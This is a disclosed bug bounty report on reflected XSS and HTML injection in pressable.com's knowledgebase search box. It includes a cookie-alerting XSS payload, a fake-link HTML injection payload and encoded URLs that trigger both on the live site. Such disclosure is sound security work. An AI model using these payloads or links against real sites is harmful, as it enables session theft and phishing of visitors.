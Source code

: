# XSS and HTML Injection on the pressable.com search box

## Report Details
- **Report ID**: 1537149
- **URL**: https://hackerone.com/reports/1537149
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-04-11T09:58:06.887Z
- **Disclosed**: 2022-08-23T18:30:55.653Z

## Reporter
- **Username**: sawrav-chowdhury
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
## Summary:
Hi, I have found that search box  on pressable.com is vulnerable for XSS attack and HTML Injection .

## Steps To Reproduce:

1. Visit https://pressable.com/knowledgebase/
2. Put the payload on the search box. 

XSS Payload: "><img src=x onerror=javascript:alert(document.cookie)>

HTML Injection Payload: <h1><font Color=red>Visit  Our  New  WebSite </h1><h3><mark><a href="https://example.com">e x a m p l e . c o m </a></mark></h3>

3.XSS will be triggered /HTML Injection will be reflected.

Link with XSS Payload: [https://pressable.com/?s=%22%3E%3Cimg+src%3Dx+onerror%3Djavascript%3Aalert%28document.cookie%29%3E&post_type=knowledgebase](https://pressable.com/?s=%22%3E%3Cimg+src%3Dx+onerror%3Djavascript%3Aalert%28document.cookie%29%3E&post_type=knowledgebase)

Link with HTML Injection Payload: [https://pressable.com/?s=%3Ch1%3E%3Cfont+Color%3Dred%3EVisit++Our++New++WebSite+%3C%2Fh1%3E%3Ch3%3E%3Cmark%3E%3Ca+href%3D%22https%3A%2F%2Fexample.com%22%3Ee+x+a+m+p+l+e+.+c+o+m+%3C%2Fa%3E%3C%2Fmark%3E%3C%2Fh3%3E&post_type=knowledgebase](https://pressable.com/?s=%3Ch1%3E%3Cfont+Color%3Dred%3EVisit++Our++New++WebSite+%3C%2Fh1%3E%3Ch3%3E%3Cmark%3E%3Ca+href%3D%22https%3A%2F%2Fexample.com%22%3Ee+x+a+m+p+l+e+.+c+o+m+%3C%2Fa%3E%3C%2Fmark%3E%3C%2Fh3%3E&post_type=knowledgebase)

## Supporting Material/References:
POC Video Attached

## Impact

Due to these vulnerabilities, attacker can easily divert victims to their malicious site and able to get credentials of victims.

## Attachments
- POC-_VIDEO.mp4
